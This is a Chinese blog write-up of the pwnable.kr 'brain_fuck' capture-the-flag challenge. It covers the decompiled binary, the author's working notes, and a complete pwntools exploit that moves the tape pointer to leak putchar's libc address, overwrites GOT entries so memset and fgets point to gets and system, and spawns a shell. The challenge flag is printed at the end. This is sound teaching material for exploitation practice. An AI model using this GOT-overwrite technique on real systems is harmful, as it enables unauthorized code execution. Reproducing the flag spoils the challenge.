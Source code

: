 ```yaml
---

layout: post

title: 'pwnable.kr之brain_fuck'

date: '2017-05-01'

header-img: "img/home-bg.jpg"

tags:
     - pwnable.kr
author: 'De4dCr0w'

---
```


### 题目源码 ###

> main函数的代码

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  int result; // eax@4
	  int v4; // edx@4
	  size_t i; // [sp+28h] [bp-40Ch]@1
	  int v6; // [sp+2Ch] [bp-408h]@1
	  int v7; // [sp+42Ch] [bp-8h]@1
	
	  v7 = *MK_FP(__GS__, 20);
	  setvbuf(stdout, 0, 2, 0);
	  setvbuf(stdin, 0, 1, 0);
	  p = (int)&tape;
	  puts("welcome to brainfuck testing system!!");
	  puts("type some brainfuck instructions except [ ]");
	  memset(&v6, 0, 0x400u);
	  fgets((char *)&v6, 1024, stdin);
	  for ( i = 0; i < strlen((const char *)&v6); ++i )
	    do_brainfuck(*((_BYTE *)&v6 + i));
	  result = 0;
	  v4 = *MK_FP(__GS__, 20) ^ v7;
	  return result;
	}


> do_brainfuck函数的代码

	int __cdecl do_brainfuck(char a1)
	{
	  int result; // eax@1
	  int v2; // ebx@7
	
	  result = a1;
	  switch ( a1 )
	  {
	    case 62:
	      result = p++ + 1;
	      break;
	    case 60:
	      result = p-- - 1;
	      break;
	    case 43:
	      result = p;
	      ++*(_BYTE *)p;
	      break;
	    case 45:
	      result = p;
	      --*(_BYTE *)p;
	      break;
	    case 46:
	      result = putchar(*(_BYTE *)p);
	      break;
	    case 44:
	      v2 = p;
	      result = getchar();
	      *(_BYTE *)v2 = result;
	      break;
	    case 91:
	      result = puts("[ and ] not supported.");
	      break;
	    default:
	      return result;
	  }
	  return result;
	}

### 做题的思路 ###

![](http://i.imgur.com/uRWhzSJ.png)

首先这题没找到溢出点，memset分配了1024，fget也只限定输入1024，然后do_brainfuck也只是做了一些编码的操作，里面有个getchar函数感觉用不了  
导入函数里面并没有write和read函数，感觉无法leak，找到了一个__stack_chk_fail,不知道怎么用    

但是题目给了bf_libc.so文件，肯定要进行泄露然后得到getshell，题目开启了NX和canary，比较难，NX用ret2libc绕过，canary用暴力破解？
  
v6缓冲区离canary正好是1024的大小  
0xbfffeb1c
EAX = 0xb 加了换行  
ebx = 0，计数器i保存在[esp+28h]处  
buf保存在[esp+2Ch]处  
canary保存在[esp+42Ch]处  

没有具体分析do_brainfuck函数，还是没有认真分析，老想看网上教程

* **> : p ++**
* **< : p --**
* **+ : ++(*p)**
* **- : --(*p)**
* **. : putchar(*p) 打印p指针**
* **, : getchar 给p指针赋值**

因为p指针地址在bss上，离data段，上去就是.got.plt段，思路：可以通过移动p指针，改写.got.plt上的函数  
.got.plt:0804A030 off_804A030     dd offset putchar       ; DATA XREF: _putcharr  
.bss:0804A080 p               dd ?  

![](http://i.imgur.com/PRJWdNF.png)

![](http://i.imgur.com/5aflMFC.png)

tape的地址可以从gdb调试中获取 

需要偏移的p指针offset = 0x0804A080-0x0804A030 = 0x50

思路还是太窄

可以跳回到main函数再执行一次

.got.plt:0804A02C off_804A02C     dd offset memset
.got.plt:0804A010 off_804A010     dd offset fgets

**如何根据so文件泄露函数的真实地址？**  
根据泄露putchar函数的真实地址（gdb中可以通过print打印出来），然后根据so文件泄露其它函数地址，因为他们相对偏移是不变的  

首先通过得到putchar函数运行时的地址，计算出其它函数真实的地址，覆盖putchar函数到main函数  

**不知道main函数的地址**，main函数的地址好像是不变的,main_addr = 0x8048671
这里要注意地址小端问题，这里直接赋值应该没问题

**怎么寻找/bin/sh的地址？**
这里可以通过gets函数来输入，输入放在哪？又怎么作为system的参数

![](http://i.imgur.com/Px2pwzS.png)

因为我们把memset覆盖成gets函数，栈空间是不变的，所以我们传进去的/bin/sh保存在v6上，然后覆盖fgets为system函数，此时system的参数就是v6就已经传进来了。

**不理解为什么一开始要调用一次putchar**，明明两个连续的'.'，但是结果不一样，这里我想是不是因为延迟绑定的原因，先将p指针压入栈中，因为此时got表还没绑定putchar，所以得到的地址并不是putchar的地址。
这题不知道怎么调试，每次调试都会跳进do_brain_fuck的循环里面，我明明是在收到第二次"type some brainfuck instructions except [ ]\n"附加gdb的


### exploit代码 ###

	from pwn import *
	import time
	
	context.log_level = 'debug'

	p = process("./bf")
	#p = remote('pwnable.kr',9001)
	#libc = ELF('bf_libc.so')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')

	putchar_got = 0x0804A030
	memset_got = 0x0804A02C
	fgets_got = 0x0804A010
	pt_got = 0x0804A0A0
	
	putchar_libc = libc.symbols['putchar']
	gets_libc = libc.symbols['gets']
	memset_libc = libc.symbols['memset']
	system_libc = libc.symbols['system']
	
	p.recvuntil("type some brainfuck instructions except [ ]\n")
	payload = '.'+(pt_got - putchar_got)*'<' + '.>'*4 #泄露putchar函数地址
	payload += '<'*4 + ',>'*4 #覆盖putchar函数为main函数
	payload += (putchar_got - memset_got + 4)*'<' + ',>'*4  #覆盖memset函数为gets函数，+4是因为之前putchar函数已经被覆盖了，算偏移到倒回去4
	payload += (memset_got - fgets_got + 4)*'<'+',>'*4 #覆盖fgets函数为system函数
	payload += '.' #调用putchar函数，实际上是main函数
	
	p.sendline(payload)

	print str(p.recv(1))
	putchar_addr = u32(p.recv(4)) #接收putchar函数实际地址

	#gdb.attach(p)
	print putchar_addr

	#计算system函数gets函数的实际地址
	offset_addr = putchar_addr - putchar_libc
	system_addr = offset_addr + system_libc
	gets_addr = offset_addr + gets_libc
	
	binsh = '/bin/sh\0'
	
	main_addr = 0x8048671
	
	p.send(p32(main_addr))
	p.send(p32(gets_addr))
	p.send(p32(system_addr))
	p.recvuntil("type some brainfuck instructions except [ ]\n")
	
	p.sendline(binsh)
	p.interactive()

>flag :BrainFuck? what a weird language..